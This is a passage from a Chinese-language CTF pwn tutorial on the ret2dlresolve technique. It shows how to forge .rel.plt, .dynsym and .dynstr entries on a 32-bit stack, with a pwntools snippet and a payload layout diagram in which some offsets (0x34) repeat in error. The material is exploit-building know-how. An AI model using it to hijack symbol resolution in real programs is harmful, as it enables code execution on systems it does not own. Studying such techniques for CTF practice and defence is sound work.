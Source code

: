 需要的是st_name，因此将等式变化：

```
st_name = fake_sym_addr + 0x10 - .dynstr
```

这样一来，部署在.dynsym的结构体的内容就可以写为

```
fake_write_sym = flat([st_name],0,0,0x12)
```

给出此步骤的栈布局

```
      低地址位 	
		    +---------------------+
	  0x00  |        plt0         |  <----ret
			+---------------------+
      0x04  |    index_offset     | 伪造的.rel.plt的结构体偏移
       	    +---------------------+
      0x08  |        bbbb         | write函数返回地址
       		+---------------------+
      0x0c  |          1          | write函数1参
       		+---------------------+
      0x10  |     /bin/sh地址      | write函数2参，/bin/sh字符串所在地址
       		+---------------------+                 
      0x14  |          7          | write函数3参     
       		+---------------------+   
      0x18  |      r_offset       | 伪造的.rel.plt的结构体成员r_offset
            +---------------------+
      0x1c  |       r_info        | 伪造的.rel.plt的结构体成员r_info
            +---------------------+
      0x20  |        aaaa         |  对齐
       		+---------------------+
      0x24  |        aaaa         |  对齐
       		+---------------------+
      0x28  |       st_name       |  伪造的.dynsym的结构体的成员变量st_name
      		+---------------------+
      0x2c  |       st_value      |  伪造的.dynsym的结构体的成员变量st_value
      		+---------------------+
      0x30  |       st_size       |  伪造的.dynsym的结构体的成员变量st_size
      		+---------------------+
      0x34  |       st_info       |  伪造的.dynsym的结构体的成员变量st_info
       		+---------------------+  
      0x34  |        writ         |  伪造的.dynstr：write\x00
            +---------------------+
      0x34  |       e\x00         | 
       		+---------------------+
       		|        aaaa         |  填充          
       		|        ....         |  填充          
       		|        aaaa         |  填充            
       		+---------------------+                
      0x50	|      /bin/sh        | /bin/sh字符串
       		+---------------------+ 
       		|        aaaa         |
       		|        ....         |              
       		|        aaaa         |           
   高地址位  +---------------------+

```


[CTF-wiki]: https://ctf-wiki.org/pwn/linux/user-mode/environment/	"ctf-wiki知识库"
[CTFHub]: https://www.ctfhub.com/#/skilltree	"ctfhub技能树"
[攻防世界]: https://adworld.xctf.org.cn/challenges/list	"题库"